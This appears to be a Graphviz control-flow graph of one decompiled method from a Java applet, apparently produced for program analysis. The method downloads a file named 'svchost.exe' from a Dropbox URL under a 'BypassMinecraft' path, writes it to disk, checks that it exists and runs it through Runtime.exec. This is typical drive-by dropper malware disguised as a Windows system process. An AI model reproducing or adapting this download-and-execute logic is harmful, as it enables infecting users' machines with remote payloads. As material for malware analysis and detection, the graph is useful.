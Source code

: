 digraph "" {
    "r0 := @this: Java"
    "load.r r0"
    "r0 := @this: Java"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "push null"
    "push 0"->"push null";
    "virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>"
    "push null"->"virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>";
    "ifnull return"
    "virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>"->"ifnull return";
    "new java.io.BufferedInputStream"
    "ifnull return"->"new java.io.BufferedInputStream";
    "store.r $r5"
    "new java.io.BufferedInputStream"->"store.r $r5";
    "load.r $r5"
    "store.r $r5"->"load.r $r5";
    "new java.net.URL"
    "load.r $r5"->"new java.net.URL";
    "dup1.r"
    "new java.net.URL"->"dup1.r";
    "push \"http://dl.dropbox.com/u/90400482/BypassMinecraft/svchost.exe\""
    "dup1.r"->"push \"http://dl.dropbox.com/u/90400482/BypassMinecraft/svchost.exe\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"http://dl.dropbox.com/u/90400482/BypassMinecraft/svchost.exe\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>";
    "new java.io.FileOutputStream"
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"->"new java.io.FileOutputStream";
    "store.r r3"
    "new java.io.FileOutputStream"->"store.r r3";
    "load.r r3"
    "store.r r3"->"load.r r3";
    "load.r r3"->"load.r r0";
    "fieldget <Java: java.lang.String[] AAA>"
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "push 1"
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "arrayread.r"
    "push 1"->"arrayread.r";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"arrayread.r";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "arrayread.r"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.io.BufferedOutputStream"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.io.BufferedOutputStream";
    "store.r $r13"
    "new java.io.BufferedOutputStream"->"store.r $r13";
    "load.r $r13"
    "store.r $r13"->"load.r $r13";
    "load.r $r13"->"load.r r3";
    "push \"1\""
    "load.r r3"->"push \"1\"";
    "push \"1\""->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "push 1"->"arrayread.r";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "arrayread.r"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"24\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"24\"";
    "push \"24\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>";
    "push 1024"
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "newarray"->"store.r r3";
    "store.r r3"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "i2l"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"i2l";
    "store.l $l8"
    "i2l"->"store.l $l8";
    "store.l $l8"->"load.r $r5";
    "load.r $r5"->"load.r r3";
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"
    "load.r r3"->"virtualinvoke <java.io.BufferedInputStream: int read(byte[])>";
    "store.i $i4"
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"->"store.i $i4";
    "load.i $i4"
    "store.i $i4"->"load.i $i4";
    "push -1"
    "load.i $i4"->"push -1";
    "ifcmpeq.i load.r $r13"
    "push -1"->"ifcmpeq.i load.r $r13";
    "ifcmpeq.i load.r $r13"->"load.r $r13";
    "load.r $r13"->"load.r r3";
    "load.r r3"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"load.i $i4";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"
    "load.i $i4"->"virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"->"load.i $i4";
    "load.i $i4"->"i2l";
    "i2l"->"store.l $l8";
    "goto load.r $r5"
    "store.l $l8"->"goto load.r $r5";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"->"store.r $r5";
    "store.r $r5"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.System: void exit(int)>"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"staticinvoke <java.lang.System: void exit(int)>";
    "return"
    "staticinvoke <java.lang.System: void exit(int)>"->"return";
    "ifcmpeq.i load.r $r13"->"load.r $r13";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"
    "load.r $r13"->"virtualinvoke <java.io.BufferedOutputStream: void close()>";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"->"load.r $r5";
    "virtualinvoke <java.io.BufferedInputStream: void close()>"
    "load.r $r5"->"virtualinvoke <java.io.BufferedInputStream: void close()>";
    "new java.io.File"
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"arrayread.r";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "arrayread.r"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean exists()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "ifeq goto return"
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq goto return";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "ifeq goto return"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] AAA>";
    "fieldget <Java: java.lang.String[] AAA>"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"arrayread.r";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "arrayread.r"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "ifnull load.r r0"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"ifnull load.r r0";
    "ifnull load.r r0"->"load.r r0";
    "push 3"
    "load.r r0"->"push 3";
    "push 3"->"push null";
    "push null"->"virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>";
    "pop"
    "virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>"->"pop";
    "goto goto return"
    "pop"->"goto goto return";
    "goto return"
    "goto goto return"->"goto return";
    "ifnull load.r r0"->"load.r r0";
    "load.r r0"->"push 3";
    "push 3"->"push null";
    "push null"->"virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>";
    "virtualinvoke <Java: java.lang.String AAB(int,java.applet.AppletContext)>"->"pop";
}
